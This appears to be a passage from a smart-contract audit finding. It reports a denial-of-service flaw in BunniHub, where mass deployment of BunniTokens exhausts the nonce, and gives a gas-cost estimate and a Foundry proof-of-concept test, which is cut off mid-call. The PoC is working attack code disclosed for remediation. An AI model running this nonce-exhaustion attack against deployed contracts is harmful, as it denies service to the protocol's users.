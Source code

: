 The attacker can continuously create new `BunniTokens` to make the `nonce_` reach the upper limit, thus DoS `BunniHub`. However, this requires a lot of gas fees, so it is necessary to judge the harm of this problem from the perspective of attack cost and impact.

The following is the test data I made for the Polygon chain, with a gas fee of `30 GWei` and a Matic price of `0.5` USD. For specific test methods, please see PoC. Creating `1,000,000` BunniTokens consumes `4990931099993` gas, a total of `4990931099993 * 0.00000003 = 149727.93299979` MATIC, with a value of `149727.93299979 * 0.5 = 74863.966499895` USD.

In other words, an attacker can DoS the deployment of `BunniToken` for a trading pair by spending 75,000 USD in Polygon chain. If gas fees are reduced in the future, the cost may be even smaller.

This is a simple scheme that allows the admin to delete useless `BunniToken` contracts.

**Appendix: PoC**

Please insert this test function into the `BunniHubTest` contract.

```solidity
contract EmptyLiquidityDensityFunction {
    function isValidParams(PoolKey calldata key, uint24 twapSecondsAgo, bytes32 ldfParams) external view returns (bool) {
        return true;
    }
}

contract EmptyHooks {
    function isValidParams(bytes calldata hookParams) external view returns (bool) {
        return true;
    }

    function beforeInitialize(address, PoolKey calldata, uint160, bytes calldata) external pure returns (bytes4) {
        return IHooks.beforeInitialize.selector;
    }

    function afterInitialize(address, PoolKey calldata, uint160, int24, bytes calldata) external pure returns (bytes4) {
        return IHooks.afterInitialize.selector;
    }
}
```

and

```solidity
    function testYttriumzzPoC0002() external {
        Currency currency0 = Currency.wrap(address(token0));
        Currency currency1 = Currency.wrap(address(token1));
        ILiquidityDensityFunction emptyLiquidityDensityFunction = ILiquidityDensityFunction(address(new EmptyLiquidityDensityFunction()));
        BunniHook emptyHooks = BunniHook(payable(address(new EmptyHooks())));
        uint160 sqrtPriceX96 = TickMath.getSqrtPriceAtTick(4);
        address testOwner = makeAddr("testOwner");

        uint256 gasTotal;
        for (uint256 i = 0; i < 1000002; i++) {
            if (i == 1000001) {
                vm.expectRevert(BunniHub__MaxNonceReached.selector);
            }

            uint256 gasBefore = gasleft();
            (, PoolKey memory key) = hub.deployBunniToken(
                IBunniHub.DeployBunniTokenParams({
                    currency0: currency0,
                    currency1: currency1,
                    tickSpacing: TICK_SPACING,
                    twapSecondsAgo: TWAP_SECONDS_AGO,
```